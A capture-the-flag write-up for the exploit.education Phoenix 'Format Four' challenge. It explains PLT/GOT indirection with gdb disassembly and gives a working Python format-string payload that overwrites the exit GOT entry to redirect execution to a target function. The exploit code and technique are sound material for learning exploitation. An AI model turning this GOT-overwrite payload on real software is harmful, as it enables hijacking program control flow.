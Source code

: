 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x4"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Format Four](https://exploit.education/phoenix/format-four/)

<!--more-->

The bug in this challenge is the same as in the previous one, so I'm not going into details. But this time, the goal is to redirect execution. The key to solving this challenge is the slightly modified `bounce` function:

```C
void bounce(char *str) {
    printf(str);
    exit(0);
}
```

It was extended by a call to the externally defined (in the standard library) `exit` function. Since the location of this function is not known to program at compile time, it's the linkers job to fill in this detail during dynamic linking. For this, there is the PLT and GOT (procedure linkage table and global offset table).

Basically, there is an additional layer of indirection. Instead of directly jumping to the function, execution goes through the PLT which in turn jumps to an offset stored in the GOT.

In gdb this looks as follows:

```bash
(gdb) disas bounce
Dump of assembler code for function bounce:
0x080484e5 <+0>:     push   %ebp
0x080484e6 <+1>:     mov    %esp,%ebp
0x080484e8 <+3>:     sub    $0x8,%esp
0x080484eb <+6>:     sub    $0xc,%esp
0x080484ee <+9>:     pushl  0x8(%ebp)
0x080484f1 <+12>:    call   0x8048300 <printf@plt>
0x080484f6 <+17>:    add    $0x10,%esp
0x080484f9 <+20>:    sub    $0xc,%esp
0x080484fc <+23>:    push   $0x0
0x080484fe <+25>:    call   0x8048330 <exit@plt>
```

At the end of `bounce` we call the `exit@plt` symbol. This is not the actual function but its' representation in the PLT. It looks like this:

```bash
(gdb) disas 0x8048330
Dump of assembler code for function exit@plt:
0x08048330 <+0>:     jmp    *0x80497e4
0x08048336 <+6>:     push   $0x18
0x0804833b <+11>:    jmp    0x80482f0
```

As you can see, we jump to an address stored at `0x80497e4`. This is the entry in the GOT filled by the dynamic linker during program load:

```bash
(gdb) x 0x80497e4
0x80497e4 <exit@got.plt>:       0xf7f7f543
```

This means, the actual code for the `exit` function starts at `0xf7f7f543`.

But how does this help us as attackers?

# Redirecting code execution

In the previous challenge we established an arbitrary write primitive using the format string exploit. We can now use this to overwrite the entry in the GOT! This means, when going through the PLT, execution will jump to an address of our choosing instead of to libc.

The goal is simple: overwrite the value at `0x80497e4` with the address of the `congratulations` function which is `0x08048503`.

```bash
(gdb) disas congratulations
Dump of assembler code for function congratulations:
0x08048503 <+0>:     push   %ebp
...
0x0804851e <+27>:    call   0x8048330 <exit@plt>
```

This can be achieved reusing the exploit from the previous exercise and adapting the values to the new addresses:

```python
import struct

ADDR = 0x80497e4

buf = struct.pack("I", ADDR)
buf += "AAAA" # Add padding between addresses since we can't access arguments directly. This ensures that between the first and second write we can add more padding to control the value we write
buf += struct.pack("I", ADDR + 2)
buf += "%" + str(0x8503 - len(buf) - 10) + "x" + "%c" * 10 + "%n" # Write to lower 2 bytes, address is at the 12th argument position. We don't have the '$' sematic on this machine so we need to provide explicit format specifiers until %n is the 12th one.
buf += "%" + str(0x10804 - 0x8503) +  "x" + "%n" # Write to upper 2 bytes
print buf
```

Just like before, we write twice to avoid having to write a huge number of characters. First we write the lower two bytes of the target address. Then we again make use of the fact that we write 4-byte values and we can overflow the 2-byte value to be smaller than the first one (see format-three for details). Run the payload and, voila!

 ```bash
 $user@phoenix-amd64:/opt/phoenix/i486$ ./format-four < <(python ~/format-four.py)
 ...
 Well done, you're redirected code execution!
 Well done, you're redirected code execution!
 Well done, you're redirected code execution!
 ...
 ```

 Now, the program is stuck in an endless loop. This is expected since `congratulations` also calls `exit`. And since we overwrote `exit` with `congratulations`, we enter an endless recursion.

